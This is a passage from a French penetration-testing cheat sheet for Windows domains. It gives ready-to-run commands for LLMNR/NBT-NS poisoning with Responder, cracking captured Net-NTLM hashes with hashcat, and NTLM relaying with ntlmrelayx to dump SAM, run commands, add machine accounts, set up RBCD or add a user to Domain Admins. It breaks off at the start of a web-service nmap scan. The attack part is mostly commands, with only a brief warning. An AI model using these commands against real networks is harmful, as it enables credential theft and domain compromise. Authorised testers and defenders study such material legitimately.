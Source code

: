 ### 3. Empoisonnement LLMNR/NBT-NS et Relais NTLM
*   **Objectif :** Intercepter les hashes Net-NTLM ou relayer des authentifications.
*   **Outils :** Responder, ntlmrelayx.py
*   **Commandes Clés :**
    ```bash
    # 1. Lancement de Responder (écouter les requêtes LLMNR/NBT-NS)
    sudo responder -I <interface_reseau> -wfv 
    # -w: Démarrer le serveur WPAD malveillant
    # -f: Permettre l'empreinte du système d'exploitation distant
    # -v: Verbose

    # 2. Craquage des hashes Net-NTLMv1/v2 capturés (stockés dans logs/):
    hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

    # 3. Relais NTLM (plus avancé, nécessite une cible pour relayer)
    # Relais vers SMB (exécution de commande, dump SAM)
    sudo ntlmrelayx.py -t smb://<IP_CIBLE_RELAY> -smb2support (-c "commande" ou -i pour interactif)
    # Relais vers LDAP/S (ajout d'utilisateur, modification de groupe, RBCD, Shadow Credentials)
    sudo ntlmrelayx.py -t ldaps://<IP_DC> --delegate-access # Tente d'ajouter un nouveau compte machine et de configurer RBCD
    sudo ntlmrelayx.py -t ldaps://<IP_DC> --add-computer # Ajoute un compte machine
    sudo ntlmrelayx.py -t ldaps://<IP_DC> --escalate-user <UTILISATEUR_A_ESCALADER> # Tente d'ajouter l'utilisateur à Domain Admins
    ```
    *   **Attention :** Le relais NTLM est une technique active et potentiellement disruptive.

### 4. Exploitation des Services Web Exposés
*   **Objectif :** Trouver des vulnérabilités sur les applications web internes (OWA, SharePoint, applications custom) pouvant mener à un accès ou à la fuite d'informations.
*   **Commandes Clés :**
    ```bash
    # Découverte de services web
    nmap -p 80,443,8000,8080,8443 --open <PLAGE_IP> -sV
